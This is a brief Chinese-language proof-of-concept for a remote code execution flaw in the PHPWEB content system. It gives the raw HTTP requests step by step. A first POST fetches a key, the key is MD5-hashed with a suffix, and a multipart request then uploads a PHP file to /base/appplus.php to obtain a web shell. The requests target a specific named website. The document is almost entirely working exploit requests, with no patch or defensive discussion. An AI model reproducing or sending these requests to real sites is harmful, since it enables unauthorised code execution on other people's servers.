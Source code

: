 # PHPWEB RCE

#### 1.首先，先post发包获取值

POST /base/post.php HTTP/1.1
Host: www.sdyycm.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:18.0) Gecko/20100101 Firefox/18.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

act=appcode

#### 2.获取    `k=504871bc9e70a836ae5ee70e69bde615&t=1578585276`  k的值

    ***然后md5加密32位k的值+a  `504871bc9e70a836ae5ee70e69bde615a(504871bc9e70a836ae5ee70e69bde615+a` 加密之后的值为  `d950d53f648925e1c5ce8dc8bd6e8181`之后post包getshell ,post包m字段内容就是这个md5加密之后的值***  

### poc

```
POST /base/appplus.php HTTP/1.1
Host: www.sdyycm.com
Content-Length: 711
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary92Ek3CIGduLPoRLt
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="file"; filename="123.php"
Content-Type: application/octet-stream

asdasda
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="t"

a
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="m"

d950d53f648925e1c5ce8dc8bd6e8181
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="act"

upload
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="r_size"

7
------WebKitFormBoundary92Ek3CIGduLPoRLt
Content-Disposition: form-data; name="submit"

getsell
------WebKitFormBoundary92Ek3CIGduLPoRLt--
```

